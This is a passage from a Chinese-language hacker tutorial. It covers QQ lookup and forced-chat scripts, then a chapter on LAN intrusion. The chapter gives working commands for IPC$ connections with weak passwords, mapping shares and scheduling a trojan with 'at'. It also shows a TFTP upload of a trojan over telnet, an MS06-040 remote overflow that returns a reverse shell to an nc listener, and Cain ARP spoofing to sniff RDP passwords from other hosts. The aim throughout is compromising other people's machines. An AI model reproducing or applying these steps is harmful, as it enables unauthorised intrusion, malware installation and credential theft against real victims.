| `net use \\*.*.*.*\ipc$ /user:用户名` | 建立空连接 |
| `telnet *.*.*.* 90` | 连接对方电脑的 telnet（端口为 90） |
| `ipconfig` | 查看本机的 IP 信息 |

### 1.5 QQ编程入门

#### 1.5.1 QQ信息查询工具

QQ 信息查询工具，不用登录 QQ，就可以查看任意 QQ 用户的财富和红黄蓝钻的开通情况、QQ 交友中心详细原始资料、QQ 相册、QQ 号码在线状态……相信大家也使用过很多版本的这种工具，下面我就教大家使用 VB 编写一个 QQ 信息查询工具。

VB 对于编程初学者来讲是一个不错的选择，操作简单，容易上手。QQ 信息查询器的制作不需要多么高深的编程技术；简单地说就是调用 VB 中的 Microsoft Internet Controls 控件浏览相应的页面。

首先新建一个工程，我们制作这个程序需要用到 Microsoft Internet Controls 控件，在左边的工具栏上点击右键，在部件中选择 Microsoft Internet Controls 控件即可。然后在工具栏里点击“WebBrowser”，在工程里面做一个浏览页面，用来显示查询 QQ 得到的内容。利用“TextBox”控件获得 QQ 号码，利用“CommandButton”控件来设置查询按钮，分别用来触发查询代码。Caption 属性分别为“在线状态”、“财富红黄蓝钻查看”等，最后一个设置为“退出”，如图 1.52。好了，界面基本上就做完了，你还可以把它做得更精致一些，添加图片稍微作一下修饰。

```vb
WebBrowser1.Navigate "页面地址" & Text1.Text
```

下一步进入核心内容，也就是编写代码。其实这也非常简单，我们只需要使用类似如下的代码（QQ 号可以从 Text 文本框中获得），大家在具体的代码中可以思考一下原理。

- 来看下边的这些链接：
- 访问 Q-zone：http://q-zone.qq.com/client/?uin=QQ号码
- QQ书签：http://shuqian.qq.com/QQ号码
- QQ播客：http://video.qq.com/userinfo.htm?uin=QQ号码
- QQ拍拍：http://shop.paipai.com/QQ号码
- QQ歌Q魅：http://qgqm.qq.com/template/user_index.html?qq=QQ号码
- QQ相册：http://photo.qq.com/jump.htm?ownerid=QQ号码
- 群空间：http://group.qq.com/group_index.shtml?funcid=8&&groupid=群号
- QQ游戏大厅积分查询（注：查询游戏积分时需要登录）：http://game-web.qq.com/cgi-bin/game_queryuser_score?queryuin=QQ号码
- 在线状态：http://wpa.qq.com/pa?p=1;QQ号码:4
- QQ财富及红黄蓝钻的开通情况：http://qqshow.qq.com/cgi-bin/qqshow_user_info?uin=QQ号码
- QQ交友中心详细原始资料：http://bbs.qq.com/cgi-bin/bbs/friend/user_info_show?in=QQ号码

我们以查询在线状态为例编写出相应的代码，如图 1.53：（程序已经写好，大家可以参考一下源代码）。

```vb
WebBrowser1.Navigate "http://wpa.qq.com/pa?p=1," & Text1.Text & ":4"
End
```

查询在线状态的代码为上式（其意思就是从 Text 中获得用户输入的 QQ 号码，与查询网站连接并访问）。其它的代码依此类推，原理都是相同的，退出的代码为“End”。

编写好了代码，软件也就完成了，按 F5 运行一下自己的杰作，如图 1.54。最后调试一下，如果满意的话，点击“文件”里面的“生成工程”来生成 exe 的运行文件，就可以脱离 VB 独立运行了。

图 1.52

图 1.53

图 1.54

#### 1.5.2 批处理制作强制聊天工具

QQ 强制聊天工具是一个用于同陌生人聊天的十分常见的小工具，想必大家也都使用过。但是你想不想使用批处理轻松打造一个属于自己的 QQ 强制聊天工具呢？原理其实很简单，平时在 IE 地址栏中输入以下网址即可实现其功能：`tencent://Message/?Uin=QQ号`。其实各种软件的原理也都如此，知道原理后，那么我们使用批处理当然也就能实现了！

批处理，也称为批处理脚本，英文译为 BATCH，批处理文件后缀 BAT 就取的前三个字母。所谓的批处理，就是按规定的顺序自动执行若干个指定的系统命令或程序。它的构成没有固定格式，只要遵守以下这条规定就行了：每一行可视为一个命令，每个命令里可以包含多条子命令，从第一行开始执行，直到最后一行结束。

QQ 强制聊天工具的代码如下：

```bat
@Echo Off
:send
title QQ强制聊天
echo 欢迎使用QQ强制聊天工具! 制作：黑客X档案
Set /p num=请输入对方的QQ号码:
If /I "%num%"=="n" Exit
start tencent://Message/?Uin=%num%
cls
Goto send
```

首先建立一个文本文档，把以上代码写入，然后保存，如图 1.55，并把格式由 `.txt` 改为 `.bat` 或者 `.cmd`，这样就能使脚本运行了，如图 1.56。输入对方的 QQ 号码，按回车即可。看，临时对话框弹出来了，如图 1.57。

图 1.55

图 1.56

图 1.57

Title——后面为标题，Echo——后面为介绍，这两处地方可任意修改，以及写入自己的“大名”。古语说：“授人以鱼，不如授人以渔。”下面就来看相关代码的介绍。

1. **Echo 命令**：打开回显或关闭请求回显功能，或显示消息。如果没有任何参数，echo 命令将显示当前回显设置。
2. **@命令**：表示不显示 @ 后面的命令。
3. **Goto 命令**：指定跳转到标签，找到标签后，程序将处理从下一行开始的命令。
4. **start 命令**：调用外部程序，所有的系统命令和命令行程序都可以由 start 命令来调用。
5. **If 命令**：if 表示将判断是否符合规定的条件，从而决定执行不同的命令。

#### 1.5.3 一键登录QQ

为了泡 QQ 和泡 MM，每天登录 QQ 号是不是有点烦？特别是有好几个 QQ 号，输入那么长的密码要浪费很多时间。下面我们就利用 VBS 来制作一个简单的一键登录 QQ 的程序。

> ### 什么是VBS呢？
> VBScript 的全称是 Microsoft Visual Basic Script Edition（微软公司可视化 BASIC 脚本版）。正如其字面所透露的信息，VBS（VBScript 的进一步简写）是基于 Visual Basic 的脚本语言。而 Microsoft Visual Basic 是微软公司出品的一套可视化编程工具，语法基于 Basic。脚本语言就是不编译成二进制文件，直接由宿主（host）解释源代码并执行，简单点说就是你写的程序不需要编译成 .exe，而是直接给用户发送 .vbs 的源程序，用户就能执行了。

VBS 编程也是只需要文本编辑器就可以来开发的，我们新建一个文本文档，写入以下内容，并将“QQ.exe 所在的路径”改为你安装的 QQ 的路径；“QQ号码”处填写你要一键登录的 QQ 号码，“QQ密码”当然是填写你的 QQ 号码对应的密码了。

```vb
Dim Program1
Program1="QQ.exe所在的路径"
Set WshShell=createobject("wscript.shell")
Set oExec=WshShell.Exec(Program1)
WScript.Sleep 2000
WshShell.AppActivate "QQ登录"
WshShell.SendKeys "+{TAB}"
WshShell.SendKeys "QQ号码"
WScript.Sleep 200
WshShell.SendKeys "{TAB}"
WshShell.SendKeys "QQ密码"
WScript.Sleep 200
WshShell.SendKeys "{ENTER}"
```

填写完成后另存为 .vbs 文件，这样一来，只需要双击这个文件就可以直接登录你 QQ 了，不需要其它多余的操作，是不是比原来方便多了？如果你还嫌麻烦，可以右键这个文件发送到“桌面快捷方式”，然后在这个快捷方式上点鼠标右键选择属性，定义一个快捷键，例如 F6，如图 1.58。下次想要登录的话只需要按一下 F6，就可以直接登录 QQ 了。并且在“属性”中还可以更改一个更漂亮的图标，如图 1.59。如果你需要开机就登录 QQ，只需要将此文件拖到“开始→程序→启动”中，如图 1.60，以后开机，你的 QQ 将会自动登录了。

注意，因为此 VBS 程序别人可以任意编译，所以当你在使用时一定要保证你的电脑是个人电脑，其他人不得随意使用，不然密码很容易泄露，或者使用 VBS 的加密工具来进行加密也可以；如图 1.61。

图 1.58

图 1.59

图 1.60

图 1.61

## 第二章 局域网攻防全攻略

局域网（Local Area Network），简称 LAN，是处于同一建筑、同一大学或者方圆几公里地域内的专用网络。局域网常被用于连接公司内办公室或工厂里的个人计算机和工作站，以便共享资源，节约费用。很多人都认为自己使用的电脑处在局域网内就可以高枕无忧，免受黑客的直接攻击，其实这是大错特错的。局域网多数是通过一个代理服务器或网关连接上 Internet，所以，如果我们能够入侵那台服务器（或网关），那么也就有可能入侵到它的内部网络。

### 2.1 弱口令入侵

利用弱口令来入侵别人的电脑是一个最基础的方法了，也许你可能会认为时至今日哪还会有人在使用弱口令，但答案却是肯定的，尤其是在局域网里，使用弱口令的人仍然是特别多的。

首先我们扫描一下，打开 x-scan 3.2，输入 IP 地址 192.168.1.1-192.168.1.20，其它的选择默认的设置就可以了。开始扫描，不一会儿结果就出来了，如图 2.1。

图 2.1

扫描到一台存在弱口令的电脑，其 IP 地址为 192.168.1.7，而且还打开了 135 端口。接下来我就简单地介绍两种入侵的方法。

#### 2.1.1 IPC$ 空连接入侵

IPC$ 入侵虽然是一种非常古老的方法，但是却非常有效。那些对于网络安全根本一点儿也不了解的小菜鸟，又有几个会主动将 IPC$ 关闭呢？

打开 CMD 命令提示符，首先和目标主机 192.168.1.7 建立 IPC$ 连接，输入命令后连接成功。使用 `net view \\192.168.1.7` 查看一下对方所开放的共享，发现 C 盘、D 盘是共享的，那么就给映射过来吧。再打开“我的电脑”，对方的 D 盘已经映射到你的主机上了，也就是 Y 盘。打开 Y 盘，把你事先配置好的木马 `123.exe` 拷贝到这里。回到 cmd 下，使用 at 命令（计划任务）指定一个时间运行你的木马，在 16:50 的时候，你的木马就会在对方主机上运行了。

```bash
net use \\192.168.1.7\ipc$ "123" /u:"administrator"
net use * \\192.168.1.7\d$
at \\192.168.1.7 16:50 d:\123.exe
```

#### 2.1.2 TFTP 上传

对于 TFTP 上传方法，我们事先需要一个 cmdshell，我想到了对方的 telnet 远程登录服务。首先把本机 administrator 的密码也改成 123，和对方的一样，注销登录。再进入本机的计算机管理，右击“计算机管理”，选择“连接到另一台计算机”，输入 IP：192.168.1.7，如图 2.3。确定后就能连接到对方的计算机管理里去了，来更改对方的服务，telnet 开起来。点击“服务”，找到 telnet 这项服务，将它启动，如图 2.4。现在连接 192.168.1.7 的 23 端口，输入命令 **telnet 192.168.1.7**，因为我们把本机的密码改成了和目标主机一样的，用户名都是系统管理员，所以直接发送 NTLM 认证后不用输入密码登录，如图 2.5。



图 2.2



图 2.3



图 2.4



图 2.5



图 2.6



图 2.7


图 2.8



图 2.9



图 2.10

在本机打开你的 TFTP32 服务器，并把木马放在同一个目录下，在 telnet 里输入 `tftp -i 192.168.1.7 get 123.exe`，如图 2.6。输入 `dir 123.exe` 查看一下，`123.exe` 已经上传到对方的电脑中了。再输入 `123.exe`，运行木马，如图 2.7。成功运行了，打开上线看看，已经上线了。

#### 2.1.3 远程溢出

我们使用 MS06040 漏洞来做演示。首先在本机监听 8888 端口，运行 `Nc -l -vv -p 8888`，如图 2.8。再打开一个 CMD 窗口来执行 MS06040RPC 程序，如图 2.9。命令格式为“ms06040rpc.exe 攻击的IP 我的IP 反弹的端口 操作系统类型”，对于操作系统类型，1 表示是 win2000SP4，2 是 winXPSP1。执行命令 **ms06040rpc.exe 192.1.80.2 192.1.80.3 8888 1**，如图 2.10。发送成功了，现在回到 NC 窗口里去看看，有没有成功拿到对方的 SHELL，如图 2.11。



图 2.11



图 2.12

成功了，这是一个典型的反弹溢出获得 SHELL。不过话又说回来，如果你没有遇到弱口令和能溢出的主机，那么你又打算怎么办呢？放弃吗？其实我们还有一个好办法，那就是 ARP 欺骗和嗅探。

ARP 嗅探就是先 ARP 欺骗后再嗅探数据，至于这个原理我想大家都懂了，以前的 X 档案上讲过好多次。这次我们要用到两个主打工具：Cain 和 ZXARPS。

### 2.2 Cain 的使用和欺骗嗅探

#### 2.2.1 嗅探局域网密码

打开 cain.exe，先来看看它的界面，很简洁明了，如图 2.12。接下来，我们要对 Cain 进行一下配置，选择“嗅探器”，选中你当前连接局域网的网卡，如图 2.13。

点击“嗅探”，再点击上面的那个网卡图标“开始嗅探”，选中下面的“主机”，点击那个黑色的十字，在弹出的对话框中选择“子网中的所有计算机”，你也可以选择自定义范围，大家可以根据自身的情况来选择。确定后软件会自动扫描出网里的所有电脑，如图 2.14。



图 2.13

点击下面的那个“ARP”，再点击上面的那个黑色十字，在弹出的“新建 ARP 欺骗”的对话框，左边选你要欺骗的 IP 地址：192.168.0.7，右边选被欺骗 IP 的目标网关 192.168.0.2，最后确定，如图 2.15。点击“开始嗅探”和“开始 ARP”，这样我们就能嗅探到从 192.168.0.7 经过 192.168.0.2 的所有数据，如图 2.16。

不一会儿就有数据出来，在左边的“ARP-RDP”有四条记录，如图 2.17。这是什么东西呢，我想在网上看过一篇叫“3389 密码嗅探”的朋友一定都知道，这是嗅探到的 3389 密码的记录。

选中其中一条记录，右击查看，弹出一个记事本，里面有好多数据，慢慢拉下来一点，你会看到一台 192.168.1.2 的 3389 用户名和密码，3389 的用户名和密码都嗅到了，又多了一台肉鸡了。



图 2.14



图 2.15



图 2.16

